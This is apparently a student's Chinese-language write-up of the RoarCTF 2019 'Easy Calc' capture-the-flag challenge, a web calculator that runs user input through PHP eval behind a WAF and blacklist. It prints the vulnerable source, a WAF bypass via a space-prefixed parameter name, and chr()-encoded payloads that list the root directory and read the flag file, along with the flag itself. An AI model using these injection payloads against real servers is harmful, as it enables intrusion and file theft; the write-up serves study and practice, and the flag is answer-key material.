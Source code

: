 # T2 WAF

> 题目： [RoarCTF 2019]Easy Calc

__0x00 审题___

1. 打开网页，是一个计算器，随意输入算式得到结果（尝试输入字符，发现回显错误）
2. 查看源码，如下
```html
<!--I've set up WAF to ensure security.-->
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```
> 发现存在问题：1.什么是WAF 2.存在calc.php

3. 打开calc.php，看到代码如下

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```

__0x01 解题__

* 代码审计：

1. 利用get方法对变量num进行传参
> 尝试：payload--?num=2*3 返回6，如果num为字符返回被过滤
2. 为何会被forbidden：搜索waf

> waf：WAF（Web 应用程序防火墙）通过过滤和监控 Web 应用程序与互联网之间的 HTTP 流量来帮助保护 Web 应用程序。它通常可以保护 Web 应用程序，使其免受跨站点伪造、跨站点脚本 (XSS)、文件包含、SQL 注入及其他一些攻击的影响

WAF 是防火墙那么可见输入字母是不没允许的，接下来要解决两个问题：

```
1. 绕过WAF
2. 绕过黑名单
```

> 问题一：如何绕过WAF（[某些参考](https://blog.csdn.net/qq_53079406/article/details/123147690)）
> 大小写混合，使用编码，使用注释，使用空字节

```
?%20num=...
```

> 问题二：绕过黑名单
> 黑名单存在即为有用，为什么我感觉用不上，他过滤了“/”，难道要我扫描根目录？
> > 追加问题三:如何利用传参查看根目录

很显然面对这个问题我不知道如何操作（[亿点借鉴](https://blog.csdn.net/weixin_54648419/article/details/123690383)）

_指出其中scandir官网定义：成功则返回包含有文件名的 array，如果失败则返回 false。如果 directory 不是个目录，则返回布尔值 false 并生成一条 E_WARNING 级的错误。参数：要被浏览的目录_

> var_dump — 打印变量的相关信息 已经提及，用于打印一个变量的信息

```
calc.php?%20num=var_dump(scandir(chr(47)))//chr(47)-->/
```

GET：
```
array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(5) "f1agg" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" } 
```

找到“flagg”

> 问题四：如何导出（感觉这个问题太蠢了，但确实是个问题）
> 
```
 calc.php?%20num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))
//file_get_contents() 把整个文件读入一个字符串中。
```

__0x02 答案__

```
flag=flag{c3da6753-a99b-43f6-a591-1163cf1cc585} 
```

__0x03 总结__

1. 为什么明明是GET传参却可以得到文件内容，看来只要可以传参的可操作性就很强
2. 一些曾经见过的函数没有印象，想不起来，导致拆分出问题无从下手
3. 熟练度有待加强
